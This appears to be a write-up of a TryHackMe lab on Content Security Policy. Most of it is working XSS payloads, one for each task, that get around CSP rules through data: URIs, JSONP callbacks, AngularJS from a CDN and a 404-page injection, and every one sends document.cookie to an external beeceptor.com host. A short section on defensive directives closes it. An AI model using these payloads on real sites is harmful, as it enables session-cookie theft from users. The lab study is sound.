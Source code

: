 # [Content Security Policy writeup](https://tryhackme.com/room/csp)
### Tools
###### Blue Team
[Evaluator](https://csp-evaluator.withgoogle.com/)

[Hasher](https://report-uri.com/home/hash)

[Generator](https://report-uri.com/home/generate)

###### Red Team
[JSONP Bypass](https://github.com/A1vinSmith/JSONBee/blob/master/jsonp.txt)

[Exfiltrator](https://beeceptor.com/)

### Payload
```
fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)

eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))
```

### Attack
###### task 1
```
<BODY ONLOAD=fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)>
```

###### task 2 (`script-src data:`)
```
<script src="data:application/javascript,fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)"></script>
```
The alternative way is using `data:;base64,iVBORw0KGgo...`

```
echo -n 'fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)' | base64

<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vcmFuZG9tY3NwLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

###### task 3 (`img-src *; script-src 'unsafe-inline'`)
```
<IMG id="randomcspsmith" SRC="">
<script>document.getElementById('randomcspsmith').src="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 4 (`style-src * 'self'; script-src 'nonce-abcdef'`)
```
<link id="randomcspsmith" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('randomcspsmith').href="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 5 (JSONP endpoints, `script-src 'unsafe-eval' *.google.com`)
```
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))"></script>
```

###### task 6 (Trust CDN? `script-src 'unsafe-eval' cdnjs.cloudflare.com`)
CDN is way too generous. They're not only providing dependence for your website also for the hackers. When setting up the script-src directive and its sources, you should pay special attention to what you're allowing to load. If you're loading a script from an external source such as a CDN, make sure you're specifying the full URL of the script or a nonce/SHA hash of it and not just the hostname where it's hosted at, unless you're 100% sure no scripts that could be used to bypass your policy are hosted there. For example, if you're including jQuery from cdnjs on your website, you should include the full URL of the script `script-src cdnjs.cloudflare.com/ajax/.../jquery.min.js` or the SHA256 hash in your policy. Most CDNs allow you to get the script hash somewhere on their site.

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>

{{$on.curry.call().document.location='https://randomcsp.free.beeceptor.com/' + $on.curry.call().document.cookie}}

</div>
```
https://cdnjs.com/
https://blog.0daylabs.com/2016/09/09/bypassing-csp/

###### task 7
After checking [Evaluator](https://csp-evaluator.withgoogle.com/)
```
default-src 'none';
media-src *;
style-src 'self';
script-src 'self'
```

'self' can be problematic if you host JSONP, Angular or user uploaded files.

`media-src` specifies the URLs from which video, audio and text track resources can be loaded from.
Checking [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/media-src)

This one is the hardest and the best.
1. The 404 pages will show up whatever you put in. means this one match `can be problematic if you host JSONP, Angular or user uploaded files.`
2. Need to understand how `script-src 'self';` works. It means something like `ip:3008/defend-1.js` will be executed.
3. Then try to close the tag with `'`. `<script src="/'; alert(1); '"></script>` alert should just work.
4. What to do after fetch, window.open, document.location are blocked by CSP? The answer is `media-src` `new Audio`
5. Use relative path for the 404 page, also a browser won't block your input for `Phishing`
6. final answer is 
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----


```
<script src="/'; new Audio('https://randomname.free.beeceptor.com/' + document.cookie); '"></script>
```


### Defend
###### task 1
script-src 'self';

###### task 2
script-src 'nonce-ae3b00';

###### task 3 (Inline JS)
[Hasher](https://report-uri.com/home/hash) to generate the hash for that inline javascript.
script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo='


### Expand Knowledge
https://content-security-policy.com/#directive

